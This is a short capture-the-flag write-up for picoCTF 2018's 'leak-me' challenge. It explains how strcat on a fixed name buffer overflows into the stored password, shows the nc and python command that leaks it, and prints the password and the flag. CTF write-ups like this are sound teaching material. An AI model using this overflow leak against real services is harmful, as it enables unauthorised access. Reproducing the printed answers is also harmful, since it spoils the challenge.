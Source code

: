 ## leak-me - 200

### Description

> Can you authenticate to this service and get the flag? Connect with nc 2018shell1.picoctf.com 38315. Source.

### Write up

```
  fgets(name, sizeof(name), stdin);
  char *end = strchr(name, '\n');
  if (end != NULL) {
    *end = '\x00';
  }

  strcat(name, ",\nPlease Enter the Password.");
```

because of `strcat`, buffer overflow happens.

```
$ python -c 'print "A"*256' | nc 2018shell1.picoctf.com 38315
What is your name?
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA,a_reAllY_s3cuRe_p4s$word_f85406
```

```
$ nc 2018shell1.picoctf.com 38315
What is your name?
a
Hello a,
Please Enter the Password.
a_reAllY_s3cuRe_p4s$word_f85406
picoCTF{aLw4y5_Ch3cK_tHe_bUfF3r_s1z3_0f7ec3c0}
```